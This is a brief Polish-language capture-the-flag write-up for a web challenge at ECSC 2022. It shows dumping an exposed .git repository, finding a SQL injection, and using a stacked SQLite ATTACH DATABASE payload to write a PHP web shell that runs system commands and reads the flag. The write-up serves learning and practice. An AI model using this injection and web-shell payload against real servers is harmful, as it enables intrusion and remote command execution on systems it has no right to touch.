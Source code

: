 ![](../images/Pasted%20image%2020220717183110.png)

Komentarz na stronie z podpowiedzią:
![](../images/Pasted%20image%2020220717185843.png)

`/.git/` -> 403 - pobieranie repo przy użyciu https://github.com/internetwache/GitTools

`Dumper/gitdumper.sh https://catblag.ecsc22.hack.cert.pl/.git/ catblag_repo`

Z pobranego repozytorium można odczytać source code, w linii 48 jest SQL Injection (visitRef to parametr `visit_source`)
![](../images/Pasted%20image%2020220717191351.png)

Payload do stworzenia execa:
```
'); ATTACH DATABASE '/var/www/html/uploads/exec.php' AS exec; CREATE TABLE exec.pwn (data text); INSERT INTO exec.pwn (data) VALUES ("<?php system($_GET['a']); ?>"); -- 
```

Potem wykonanie komend na serwerze:
`/uploads/exec.php?a=cat%20../this-is-the-flag-but-with-an-unpredictable-name.txt`

![](../images/Pasted%20image%2020220717195222.png)